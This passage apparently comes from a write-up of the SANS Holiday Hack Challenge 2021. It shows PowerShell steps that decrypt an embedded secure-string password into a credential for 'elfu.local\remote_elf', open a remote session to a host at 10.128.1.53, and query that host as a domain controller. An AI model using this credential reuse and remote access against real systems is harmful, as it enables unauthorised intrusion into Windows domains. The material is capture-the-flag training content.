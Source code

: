 Let’s login to the host 10.128.1.53 using elfu.local\remote_elf.<br>
First enter into PowerShell


```bash
pwsh
```
<img src="../../images/hhc2021/image099_1.png" alt="drawing" width="400px"/>

Get the PSCredential object using the secure string.<br>
```powershell
# Setting up the creds
$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
$aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)
```
<img src="../../images/hhc2021/image100.png" alt="drawing" width="1200px"/>

Using the creds above, create a new PowerShell session on 10.128.1.53 <br>
```powershell
New-PSSession -Computer 10.128.1.53 -Credential $aCred
```
A new PowerShell session is created with id 1. <br>
<img src="../../images/hhc2021/image101.png" alt="drawing" width="1200px"/>

We enter the PowerShell session of 10.128.1.53 with name DC01 which looks like a domain controller when examining with Get-ADDomainController.
```powershell
Enter-PSSession -Id 1
Get-ADDomainController -Discover -domain "elfu.local" -Service "PrimaryDC","TimeService"
```
<img src="../../images/hhc2021/image102.png" alt="drawing" width="1200px"/>
